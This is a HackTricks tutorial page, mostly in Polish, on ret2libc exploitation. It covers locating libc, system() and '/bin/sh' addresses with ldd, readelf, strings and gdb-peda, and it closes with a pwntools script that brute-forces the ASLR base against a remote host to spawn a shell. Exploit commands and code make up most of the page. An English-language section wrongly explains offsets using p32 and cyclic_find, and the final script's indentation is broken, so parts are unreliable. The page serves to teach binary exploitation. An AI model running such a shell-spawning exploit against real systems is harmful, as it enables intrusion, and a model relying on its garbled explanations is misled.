 <details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>


**Jeśli znalazłeś podatny plik binarny i sądzisz, że możesz go wykorzystać za pomocą Ret2Lib, tutaj znajdziesz kilka podstawowych kroków, które możesz podjąć.**

# Jeśli jesteś **wewnątrz** **hosta**

## Możesz znaleźć **adres lib**c
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Jeśli chcesz sprawdzić, czy ASLR zmienia adres libc, możesz to zrobić:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Uzyskaj przesunięcie funkcji systemowej

To uzyskać przesunięcie funkcji systemowej, możemy użyć narzędzia `objdump`. Narzędzie to analizuje plik wykonywalny i wyświetla informacje o sekcjach, symbolach i funkcjach w pliku.

Aby uzyskać przesunięcie funkcji systemowej, wykonaj następujące kroki:

1. Uruchom polecenie `objdump -T <nazwa_pliku>` w terminalu, gdzie `<nazwa_pliku>` to nazwa pliku wykonywalnego, w którym chcemy znaleźć przesunięcie funkcji systemowej.

2. Przeszukaj wynik polecenia `objdump` w poszukiwaniu funkcji systemowej, której przesunięcie chcemy znaleźć. Możesz to zrobić, szukając nazwy funkcji systemowej, na przykład `system`.

3. Znajdź wiersz, który zawiera nazwę funkcji systemowej i przesunięcie. Przesunięcie będzie znajdować się w kolumnie po prawej stronie.

Przykładowy wynik polecenia `objdump -T <nazwa_pliku>` może wyglądać tak:

```
...
00000000004005e0 g    DF .text  0000000000000013  Base        system
...
```

W tym przykładzie przesunięcie funkcji systemowej wynosi `00000000004005e0`.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
To get the offset of "/bin/sh", we can use the `pwn` module in Python. The `pwn` module provides a function called `p32` that converts an integer to a little-endian byte string. We can use this function to convert the address of "/bin/sh" to a byte string and then find its offset in the payload.

Here is an example code snippet to calculate the offset:

```python
from pwn import *

# Address of "/bin/sh"
bin_sh_addr = 0x12345678

# Convert the address to a little-endian byte string
bin_sh_bytes = p32(bin_sh_addr)

# Find the offset of "/bin/sh" in the payload
offset = cyclic_find(bin_sh_bytes)

print("Offset of \"/bin/sh\":", offset)
```

Replace `0x12345678` with the actual address of "/bin/sh" in your target binary. After running the code, it will print the offset of "/bin/sh" in the payload.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Jeśli proces tworzy **dzieci** za każdym razem, gdy z nim rozmawiasz (serwer sieciowy), spróbuj **odczytać** ten plik (prawdopodobnie będziesz musiał być rootem).

Tutaj możesz znaleźć **dokładne miejsce, w którym jest załadowana biblioteka libc** wewnątrz procesu i **gdzie będzie załadowana** dla każdego dziecka procesu.

![](<../../.gitbook/assets/image (95).png>)

W tym przypadku jest załadowana pod adresem **0xb75dc000** (Będzie to adres bazowy biblioteki libc)

## Używając gdb-peda

Uzyskaj adres funkcji **system**, funkcji **exit** i ciągu znaków **"/bin/sh"** za pomocą gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Omijanie ASLR

Możesz spróbować bruteforce'ować adres bazowy libc.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Kod
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
